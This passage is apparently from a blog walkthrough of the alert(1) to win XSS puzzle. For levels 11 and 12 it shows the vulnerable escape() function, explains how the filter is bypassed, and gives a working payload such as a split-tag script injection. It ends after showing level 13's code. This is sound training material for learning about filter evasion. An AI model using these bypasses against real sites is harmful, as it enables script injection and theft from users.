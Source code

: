 Payload: `\u003cimg src=a onerror=alert(1)\u003e`

#### Level 11:

{% highlight javascript lineos %}

function escape(s) {
  // Spoiler for level 2
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}

{% endhighlight %}

This one is easy as the filter they use is most common one that we can see around. After the injection, we need the word `script`.

Payload: `</</scriptscript><script>alert(1)//`

#### Level 12:

{% highlight javascript lineos %}

function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/);

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/\//g, '\\/');
  return "<script>" + thing[0] + "(" + json +")</script>";
}

{% endhighlight %}

This is quite similar to the one we saw before but with an exception that this time backslashes are escaped making it difficult for us to comment the rest of the string. Well, just use `<!--` :P

Payload: `'#';alert(1)<!--`


#### Level 13:

{% highlight javascript lineos %}

function escape(s) {
  var tag = document.createElement('iframe');

  // For this one, you get to run any code you want, but in a "sandboxed" iframe.
  //
  // http://print.alf.nu/?html=... just outputs whatever you pass in.
  //
  // Alerting from print.alf.nu won't count; try to trigger the one below.

  s = '<script>' + s + '<\/script>';
  tag.src = 'http://print.alf.nu/?html=' + encodeURIComponent(s);

  window.WINNING = function() { youWon = true; };

  tag.onload = function() {
    if (youWon) alert(1);
  };
  document.body.appendChild(tag);
}

{% endhighlight %}
